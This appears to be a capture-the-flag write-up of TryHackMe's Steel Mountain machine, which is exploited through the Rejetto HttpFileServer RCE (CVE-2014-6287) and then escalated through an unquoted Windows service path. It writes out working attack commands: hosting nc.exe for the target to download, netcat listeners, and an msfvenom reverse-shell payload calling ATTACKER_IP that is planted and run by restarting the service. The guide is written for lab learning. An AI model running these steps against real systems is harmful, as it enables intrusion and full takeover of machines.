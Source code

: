 Write-up for the Steel Moutain CTF on TryHackMe.

# 1. Recon

Nmap scan result :

| PORT           | STATE SERVICE | REASON                                          | VERSION                                                      |
|----------------|---------------|-------------------------------------------------|--------------------------------------------------------------|
| 80/tcp         | open          | http                                            | syn-ack Microsoft IIS httpd 8.5                              |
| 135/tcp        | open          | msrpc                                           | syn-ack Microsoft Windows RPC                                |
| 139/tcp        | open          | netbios-ssn                                     | syn-ack Microsoft Windows netbios-ssn                        |
| 445/tcp        | open          | microsoft-ds                                    | syn-ack Microsoft Windows Server 2008 R2 - 2012 microsoft-ds |
| 3389/tcp       | open          | ssl/ms-wbt-server? syn-ack                      |                                                              |
| 5985/tcp       | open          | http                                            | syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)              |
| 8080/tcp       | open          | http                                            | syn-ack HttpFileServer httpd 2.3                             |
| 47001/tcp open | http          | syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |                                                              |
| 49152/tcp open | msrpc         | syn-ack Microsoft Windows RPC                   |                                                              |
| 49153/tcp open | msrpc         | syn-ack Microsoft Windows RPC                   |                                                              |
| 49154/tcp open | msrpc         | syn-ack Microsoft Windows RPC                   |                                                              |
| 49155/tcp open | msrpc         | syn-ack Microsoft Windows RPC                   |                                                              |
| 49156/tcp open | msrpc         | syn-ack Microsoft Windows RPC                   |                                                              |
| 49169/tcp open | msrpc         | syn-ack Microsoft Windows RPC                   |                                                              |
| 49170/tcp open | msrpc         | syn-ack Microsoft Windows RPC                   |                                                              |

First, we can easily guess that the host is running Windows.

### WEB

There are multiple webservers:
- PORT 80
- PORT 8080

The first one which is running a wnidows IIS server just show a simple web page with an image of "Bill Harper"
But the second use an uncommon server, an HttpFileServer running on version 2.3

# 2. Getting access

When searching on google this particular webserver, we can find multiple sources of an RCE exploit available for this webserver.
There are python exploits and a metasploit module, we will use both of them.

### 1 - Python exploit 

CVE : CVE-2014-6287
Url of the script : https://www.exploit-db.com/exploits/39161

In order to make it working we need to do multiple things.
First, we need to modify the script by replacing the <strong>attacker ip</strong> and <strong>attacker port</strong>
Then, <strong>You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).</strong>
For this, we will just set up a simple python server with a netcat binary in our directory:

Netcat binary : https://github.com/int0x33/nc.exe/blob/master/nc.exe
> sudo python3 -m http.server 80
  
When all of this id done, we need to set up a listener
> nc -lvnp LOCAL_PORT
  
  <strong>Warning</strong>: You may need to solve some bugs of the exploit, like missing parentheses, or encoding, or replace urllib2 with urllib.
  
Once all of this is done, we can start the exploit.
> python3 exploit.py SERVER_IP SERVER_PORT
  
  <strong>It may need to run the exploit multiple time</strong>

### 2 - Metasploit
  
Searching in the metasploit list of exploit using CVE number, we can find : 

| # | Name                                  | Disclosure Date | Rank      | Check | Description                                     |
|---|---------------------------------------|-----------------|-----------|-------|-------------------------------------------------|
| 0 | exploit/windows/http/rejetto_hfs_exec | 2014-09-11      | excellent | Yes   | Rejetto HttpFileServer Remote Command Execution |
  
We need to set LHOST and LPORT at our attacker host/port for the listener.
Then modify RHOST and RPORT with the server port and ip.
  
And run exploit :
> EXPLOIT
  
After the payload is transfered, you can Control-C and enter :
> sessions -i session_number
  
# 3. Privilege Escalation
  
To enumerate the host, we will use the PowerUp script.
https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
  
You can transfer it using the upload command of meterpreter or by using a python server.
  
In meterpreter, you can load powershell to use a powershell shell:
> load powershell
> powershell_shell
  
Then launch the script :
> . .\PowerUp.ps1
  
We can see in the script output the following :
```

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```

This vulnerability is named : "Unquoted Service Paths".
When a service is calling apps using path with space like : "Advanced Systemcare" but are not using brackets, and if we can write in thoses
directories, this create a vulnerability.
  <strong>Warning</strong> : The <strong>CanRestart</strong> parameter is important, since we need to restart the service.
  
Since windows will check a program each time that there are not brackets in the path, it will try here to check :
C:\Program.exe
C:\Program Files (x86)\IObit\Advanced.exe
C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
  
And it will stop when it find one good executable.
We can create a custom binary called Advanced.exe to make a reverse shell with root access.
  
### 1 - Crafting the payload
  
We will use msfvenom to craft our custom binary.
  
> msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -e x86/shikata_ga_nai -f exe-service -o Advanced.exe

### 2 - Getting the admin reverse shell
  
We need to upload our Advanced.exe in the C:\Program Files (x86)\IObit folder, we can again use the upload command of meterpreter or a python server.
Then, we set up a listener.
  
Finaly, we need to restart the service for our binary to be executed.
> Restart-Service -Name AdvancedSystemCareService9
  
If there is no error, we should have a reverse shell with administrator level.

